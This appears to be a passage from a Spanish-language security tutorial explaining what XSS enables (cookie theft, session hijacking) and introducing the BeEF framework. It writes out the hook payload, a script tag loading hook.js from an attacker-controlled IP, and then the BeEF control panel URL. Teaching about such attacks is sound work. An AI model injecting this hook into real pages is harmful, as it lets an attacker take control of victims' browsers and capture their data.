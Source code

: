 ## ¿Qué permite hacer el XSS?

Aunque en un principio podría parecer que **XSS** solo permite ejecutar alertas molestas en el navegador, sus implicaciones van mucho más allá. Un atacante que explote esta vulnerabilidad puede:

  - <u>Robar cookies</u>: Accediendo a información sensible que permite suplantar la identidad de un usuario en el sistema.
  - <u>Manipular la interfaz de usuario</u>: Engañar a los usuarios mostrando formularios falsos para robar credenciales.
  - <u>Distribuir malware</u>: Redirigir a los usuarios a sitios maliciosos o descargar archivos infectados.
  - <u>Secuestrar sesiones</u>: Tomar el control de cuentas legítimas.
  - <u>Realizar ataques avanzados</u>: A través de herramientas especializadas como BeEF.

## Introducción a BeEF

**BeEF (Browser Exploitation Framework)** es una herramienta de código abierto diseñada específicamente para explotar navegadores web comprometidos. Aunque nació con fines educativos y de auditoría de seguridad, en manos malintencionadas, puede causar un daño considerable.

Una vez que un atacante logra inyectar un *"hook"* en el navegador de la víctima mediante un XSS, se establece una conexión con el servidor de **BeEF**. A partir de ahí, el atacante puede:

  - Obtener información detallada sobre el navegador y el sistema operativo de la víctima.
    Realizar ataques adicionales, como abrir ventanas emergentes, keylogging, o incluso escanear la red interna.
  - Usar módulos para explotar otras vulnerabilidades específicas.

Esto facilita que en vez de tener que realizar un payload complejo en JavaScript para realizar un ataque de XSS, con simplemente inyectar el *hook* se pueden hacer todas estas acciones a golpe de clic.


### SetUp

Una vez ejecutamos BeEF, se nos mostrará la siguiente información:

<center>
  <img src="/image/beef/beef_start.png" width="650"/>
</center>

<br>

Como podemos observar el *hook* que tenemos que inyectar es: `<script src="http//<IP>:3000/hook.js"></script>`. Esto cargará el Javascript necesario para que BeEF funcione.

Una vez la víctima a cargado este script podemos acceder a `http://localhost:3000/ui/panel` y podremos ver lo siguiente:

<center>
  <img src="/image/beef/one_victim.png" width="650"/>
</center>

<br>
